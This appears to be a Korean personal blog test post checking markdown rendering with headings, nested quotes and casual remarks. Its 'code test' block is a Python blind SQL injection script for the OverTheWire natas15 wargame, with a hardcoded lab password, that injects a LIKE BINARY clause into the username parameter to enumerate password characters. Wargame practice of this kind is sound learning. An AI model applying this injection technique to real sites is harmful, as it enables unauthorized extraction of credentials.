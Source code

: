 ```yaml
---
title: 테스트중입니다
date: 2024-03-19 03:45:00 +09:00
categories: [일상, 잡다한 기록]
tags:
  [
  태그?
  ]
---
```

<h1>테스트테슷트</h1>
--------------------
햅삐새벽입니다<br>
<br>
> 이건 인용문 테스트
>> 엥 왜 안됨?
>>> 미리보기에만 안 되는 건가?
>>>> 아 피곤해...흑흑

<br>
이거슨 코드테스트
<br>

```python
import requests
import string
 
url = 'http://natas15.natas.labs.overthewire.org/'
username = "natas15"
password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"
characters = ''.join([string.digits, string.ascii_letters])
 
passchar = []
exists_str = "This user exists."
for c in characters:
    url_query = ''.join([url, '?', 'username=natas16"',
                         '+and+password+LIKE+BINARY+"%', c, '%', '&debug'])
    r = requests.get(url_query, auth=(username, password))
    if exists_str in r.text:
        passchar.append(c)
        print("> {0}".format(''.join(passchar)))
print("Character List: {0}".format(''.join(passchar)))
```
<br>아항
<br>긍데 저 favicon? 개미 저거 싹 바꿔놔야겠음 조금.. 구리네요